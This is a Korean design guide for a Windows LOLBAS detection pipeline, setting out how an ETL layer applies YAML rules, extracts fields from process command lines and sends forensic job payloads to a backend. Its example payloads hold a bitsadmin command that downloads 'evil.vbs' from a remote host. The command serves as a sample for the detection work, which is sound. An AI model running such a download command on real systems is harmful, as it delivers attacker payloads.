


# guide-etl.v2.md

## 문서 목적

본 문서는 **Windows LOLBAS ETL Integration Guide v2** 입니다.
즉, ETL 이 YAML 룰을 해석하여 추출을 수행하고,
그 결과를 Backend 로 전달하여 기존 JOB 체계와 연결하는 **ETL 연계 기준 문서**입니다.

이 문서의 핵심은 아래입니다.

- 추출은 ETL 에서 수행한다.
- ETL 은 YAML 에 정의된 `forensic_integration` 을 기준으로 Backend 로 전달한다.
- Backend 는 이를 JOB 코드에 올린다.
- Agent 는 기존 구조를 변경하지 않는다.

## 문서 관계

- `forensic.md`: 전체 개념과 책임 분리 정의
- `guide.v2.md`: YAML 규격과 작성 기준
- `guide-etl.v2.md`: ETL 과 Backend 연계 기준
- `guide-etl-pseudo.v2.md`: ETL 의사코드 예시
- `windows-lolbas-rules.v2.yml`: 실제 운영용 rule bundle

즉, 이 문서는 **ETL 이 무엇을 어디까지 해야 하는가**를 정리하고,
구현 흐름 자체는 `guide-etl-pseudo.v2.md` 에서 다룹니다.

---

# 1. 책임 경계

| 구성요소 | 책임 |
|---|---|
| Security Team | YAML rule 정의 및 관리 |
| ETL | rule load, trigger match, extraction, normalization, Backend 전달 |
| Backend | forensic_code + 추출값 수신, JOB 코드 생성/적재 |
| Agent | 기존 JOB 기반 포렌식 수행 |

핵심은 **탐지와 추출이 ETL 책임**이며,
Backend 와 Agent 는 기존 역할을 최대한 유지한다는 점입니다.

---

# 2. Mermaid 구성도

## 2-1. Sequence Diagram



## 2-2. Flowchart



---

# 3. ETL 처리 범위

ETL 의 처리 범위는 다음과 같습니다.

- YAML 룰 파일 로딩
- 이벤트 공통 필드 정규화
- `trigger` 평가
- `target_field` 추출
- `parser.pattern` 적용
- `output` / `post_process` 처리
- `forensic_integration` 확인
- Backend 전달 payload 생성
- 전송 결과 상태 기록

본 문서는 아래를 직접 정의하지 않습니다.

- Agent 내부 구현
- Backend 내부 JOB 큐 구현
- 포렌식 코드 내부 로직
- 수집기 별 상세 파서

---

# 4. ETL 입력 기준

ETL 은 원본 이벤트에서 최소 아래 필드를 확보하는 것을 권장합니다.

- `EventID`
- `ProviderName`
- `Channel`
- `TimeCreated`
- `Computer`
- `User`
- `Image` 또는 `NewProcessName`
- `CommandLine`
- `ParentImage`
- `ParentCommandLine`
- `ProcessId`
- `ParentProcessId`
- `OriginalRaw`

파싱의 핵심 대상은 기본적으로 아래입니다.

```text
CommandLine
```

---

# 5. ETL 과 Backend 연계 기준

## 5-1. 연계 조건

ETL 은 아래 조건을 모두 만족할 때 Backend 연계를 수행합니다.

1. rule 이 `enabled` 상태일 것
2. trigger 가 일치할 것
3. parser 가 성공할 것
4. `forensic_integration.enabled = true` 일 것

## 5-2. 전달 기준

ETL 은 YAML 의 아래 정보를 기준으로 Backend payload 를 구성합니다.

- `rule.id`
- `forensic_integration.forensic_code`
- `forensic_integration.payload_fields`
- `normalized_fields`
- 기본 이벤트 메타데이터

## 5-3. Backend payload 예시

```json
{
  "rule_id": "LOLBAS_BITSADMIN_TRANSFER_V2",
  "forensic_code": "WIN-LOLBAS-BITSADMIN-TRANSFER",
  "extracted_values": {
    "image": "C:\\Windows\\System32\\bitsadmin.exe",
    "job_name": "mydownload",
    "remote_src": "http://example.com/download.log:evil.vbs",
    "local_dst": "C:\\temp\\local.vbs"
  },
  "source_event": {
    "event_id": 4688,
    "timestamp": "2026-03-26T10:21:33Z",
    "computer": "DESKTOP-01",
    "commandline": "bitsadmin /transfer mydownload http://example.com/download.log:evil.vbs C:\\temp\\local.vbs"
  }
}
```

Backend 는 이 payload 를 JOB 코드에 적재하고,
Agent 는 그 JOB 을 받아 기존 방식대로 포렌식을 수행합니다.

---

# 6. ETL 저장 계층 권장안

ETL 은 결과를 아래 두 층 이상으로 나누어 다루는 것을 권장합니다.

## 6-1. raw_captures

정규식이 직접 캡처한 값

## 6-2. normalized_fields

후처리까지 반영한 최종 값

## 6-3. backend_payload

실제로 Backend 로 전송할 최종 패키지

예:

```json
{
  "raw_captures": {
    "remote_src_q": "http://example.com/download.log:evil.vbs",
    "local_dst_q": "C:\\temp\\local.vbs"
  },
  "normalized_fields": {
    "remote_src": "http://example.com/download.log:evil.vbs",
    "local_dst": "C:\\temp\\local.vbs"
  },
  "backend_payload": {
    "forensic_code": "WIN-LOLBAS-BITSADMIN-TRANSFER",
    "extracted_values": {
      "remote_src": "http://example.com/download.log:evil.vbs",
      "local_dst": "C:\\temp\\local.vbs"
    }
  }
}
```

---

# 7. 상태 코드 권장안

| 상태 | 의미 |
|---|---|
| `trigger_miss` | trigger 불일치 |
| `no_target_field` | 대상 필드 없음 |
| `parse_fail` | regex 미일치 |
| `post_process_partial_fail` | 일부 후처리 실패 |
| `backend_dispatch_ready` | Backend 전송 가능 상태 |
| `backend_dispatch_fail` | Backend 전송 실패 |
| `job_handoff_done` | Backend 수신 완료 |

운영상 중요한 것은 `parse_fail` 과 `backend_dispatch_fail` 을 구분하여 기록하는 것입니다.

---

# 8. 운영 원칙

## 8-1. ETL 은 단순한 해석기로 유지합니다

ETL 은 자체 탐지 정책을 하드코딩하지 않고,
YAML 에 정의된 내용을 순서대로 해석하는 구조를 유지하는 것이 좋습니다.

즉, ETL 의 역할은 아래에 가깝습니다.

- rule load
- trigger check
- regex extract
- post_process
- payload build
- send backend

## 8-2. Agent 구조는 변경하지 않습니다

포렌식 기능을 추가하더라도 Agent 에 LOLBAS 별 정규식이나 YAML 해석 로직을 넣지 않습니다.
이는 운영 복잡도를 줄이는 핵심 원칙입니다.

## 8-3. Backend 는 연결 지점으로 유지합니다

Backend 는 ETL 이 보낸 `forensic_code + extracted_values` 를
기존 JOB 체계에 적재하는 역할에 집중합니다.

---

# 9. 후속 문서 연결

## 9-1. guide.v2.md

이 문서는 ETL 이 해석해야 하는 YAML 구조를 정의합니다.

## 9-2. guide-etl-pseudo.v2.md

이 문서는 현재 문서의 내용을 의사코드 수준으로 풀어 쓴 구현 이해용 문서입니다.

## 9-3. windows-lolbas-rules.v2.yml

이 파일은 실제 운영에 사용하는 rule bundle 입니다.
즉, ETL 은 최종적으로 이 파일을 읽어 동작합니다.

---

# 10. 결론

이 문서에서 정리하는 핵심은 아래와 같습니다.

1. **추출은 ETL 이 수행합니다.**
2. **YAML 에 정의된 rule 과 `forensic_integration` 이 Backend 전달 기준입니다.**
3. **Backend 는 이를 JOB 코드에 올립니다.**
4. **Agent 는 기존 구조를 유지합니다.**
5. **이 구조는 Agent 개발량을 줄이고, ETL 을 단순한 rule 해석기로 유지하기 위한 것입니다.**
